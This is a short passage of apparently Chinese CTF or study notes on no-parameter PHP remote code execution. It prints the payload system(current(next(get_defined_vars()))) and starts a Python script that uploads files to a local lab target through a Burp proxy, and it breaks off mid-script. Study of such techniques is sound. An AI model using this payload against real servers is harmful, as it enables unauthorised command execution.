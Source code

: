 ![image-20230720211215175](daydayup.assets/image-20230720211215175.png)

```
system(current(next(get_defined_vars())))
```

如何利用file变量进行rce呢？

>python发送文件
>
>```python
>import requests
>
>if __name__ == "__main__":
>    url = 'http://192.168.0.103/norce/index.php'
>    # burp抓包查看文件包
>    proxy = {
>       'http': '127.0.0.1:8080',
>       'https': '127.0.0.1:8080'
>    }
>    # 单个文件
>    # "uploadName": ("filename", "fileobject", "content-type", {"headers": "arg"})
>    r_file = {
>       'data': ('data', "1", "image/jpeg", {"aa": 'bb'})
>    }
>    # 多个文件
>    r_files = {
>        'data1': ('data_1', "1", "image/jpeg", {"aa": 'bb'}),